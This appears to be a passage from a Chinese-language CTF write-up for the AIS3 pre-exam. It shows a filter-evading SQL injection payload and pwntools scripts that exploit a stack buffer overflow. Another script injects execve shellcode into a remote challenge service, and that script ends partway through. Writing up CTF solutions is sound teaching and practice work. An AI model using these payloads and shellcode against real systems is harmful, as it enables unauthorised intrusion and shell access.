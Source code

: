 payload : `'///******///UNIUNIUNIONONON///******///SELSELSELECTECTECT///******///1,group_concat(name||':'||value),3///******///FRFRFROMOMOM///******///garbage;///***`

- `AIS3{4_ch1ld_15_4_curly_d1mpl3d_lun471c}`

---

# Pwn

## 👻 BOF

去年的 [bof](https://github.com/yuawn/ais3-2019-pre-exam#bof---139-solves)

```python=
from pwn import *

host = '60.250.197.227'
port = 10000
r = remote(host, port)

sh = 0x00400687
payload = 'a' * 0x30 + p64(sh)

r.recvuntil('ubuntu 18.04.')
r.sendline(payload)
r.interactive()
```

- `AIS3{OLd_5ChOOl_tr1ck_T0_m4Ke_s7aCk_A116nmeNt}`

## 📃 Nonsense

反組譯後得到的 main

![](https://i.imgur.com/diUoQM3.png)

\#15 我們知道他會去檢查一個東西
通過後會將儲存第二個輸入的變數拿去執行

![](https://i.imgur.com/5PCh2Ra.png)

那個 func 其實只是在檢查你的輸入中是否存在一段 `wubbalubbadubdub` 這個字串
而且在檢查期間不能有 `ascii < ' '` 的 byte 出現

那就在檢查字串前塞些 alphanumeric shellcode
再 `jmp` 到 `wubba` 後面的任意 shellcode 即可
注意 jump 的 byte 也是不能是小於空白 ascii 的
稍微填充一下應該不難

```python=
from pwn import *

host = '60.250.197.227'
port = 10001

r = remote(host, port)

s = b'wubbalubbadubdub'
sc = b'\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'

payload = b'TX4HPZTAZAYVH92'
payload += b'u' + b'\x20'
payload += s + s + sc

r.recvuntil(b'name?')
```
